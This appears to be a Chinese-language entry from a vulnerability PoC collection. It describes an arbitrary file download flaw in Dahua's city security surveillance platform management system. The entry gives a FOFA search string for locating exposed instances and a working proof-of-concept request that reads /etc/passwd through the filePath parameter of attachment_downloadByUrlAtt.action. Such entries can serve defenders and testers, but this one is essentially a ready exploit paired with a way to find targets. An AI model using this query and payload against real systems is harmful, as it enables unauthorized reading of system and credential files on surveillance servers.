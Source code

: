 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
大华城市安防监控系统平台管理
```

## FOFA

```
"attachment_downloadByUrlAtt.action"
```

## 漏洞复现

登录页面

![image-20220519183144081](./images/202205191831267.png)

验证POC

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![image-20220519183319607](./images/202205191833705.png)